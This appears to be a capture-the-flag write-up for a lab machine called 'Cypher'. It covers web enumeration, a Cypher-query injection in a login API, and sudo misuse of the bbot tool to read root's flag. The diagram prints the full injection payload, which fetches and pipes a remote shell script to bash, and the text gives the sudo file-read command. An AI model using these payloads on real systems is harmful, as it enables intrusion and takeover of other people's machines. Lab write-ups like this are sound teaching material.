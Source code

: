 # 🔮Cypher

## 🧠Summary
> After web and service enumeration revealed a small attack surface, I discovered an overlooked component that accepted unsanitised input, giving me remote code execution and an initial low-privilege shell. Local recon exposed clear-text credentials for a second user, and a misconfigured sudo-allowed utility let me read restricted files—ultimately granting access to both user and root flags.

## ↘️ACSII Visual
```css
[ Nmap Scan ]
     |
     v
[ Ports 80 & 22 Open ]
     |
     v
[ Web Recon ]
  └──> Login page (no register)
  └──> dirsearch → /testing/
               |
               v
     [ .jar Downloaded ]
         └── Decompiled → Input sanitization flaw (url param)

               |
               v
   [ Reverse Shell Injection ]
     └── "username":"intruder' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com; curl 10.10.16.8/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"tester"
     └── Injected via POST /api/auth in Burp
               |
               v
        [ Shell as www-data ]
               |
               v
     [ Found bbot_scan file with creds ]
               |
               v
     [ su graphasm → Got user flag ]
               |
               v
   [ sudo -l → Can run /usr/bin/bbot ]
     └── Used: sudo bbot -t /root/root.txt -o /intruder
               |
               v
     [ Dumped root.txt → Got root flag 🏴 ]
```

## 🔎Nmap scan
- Did a nmap scan to find the open ports
- The result revealed port 80 and port 22 opened
  ![](./screenshot/nmap_scan.png)

## 🌐Web enumeration
- Did web enumeration using dirsearch and found out that a page testing exsist
- Went into that page to find a .jar file that has the java .class code
  ![](./screenshot/java.png)

## 📌Loop hole
- Used a online decompiler to view the code and found a critical vunerablity
  ![](./screenshot/java.png)
- It failed to sanitize the url field
- Started a Burp Suite session and and checked the /login page
- Found that the entered username and password goes through a /api/auth endpoint
  ![](./screenshot/burp_suite.png)
- Created a json script inside the header tag containing a malicious code
  ![](./screenshot/malicious.png)
- Got the reverse shell

## ⚓Foothold
- Entered the machine and checked the /etc/passwd file found a user called graphasm
  ![](./screenshot/cat.png)
- Tried to gain the root flag but failed then found a file in home dir called bbot_scan
- Opened it and found a password inside it
- Did "su graphasm" and used the obtained password to gain access as a user and gained the user flag
  ![](./scrrenshot/user.png)
- Then checked the sudo -l and found that user has root prevelage to run bbot
- ![](./screenshot/bbot.png)
- Checked bbot and found it is an OSINT tool so used the command
  ```bash
  sudo bbot -t /root/root.txt -o /intruder
  ```
- The tool dumped the contents inside the intruder directory finally gaining root flag 🏴‍☠️
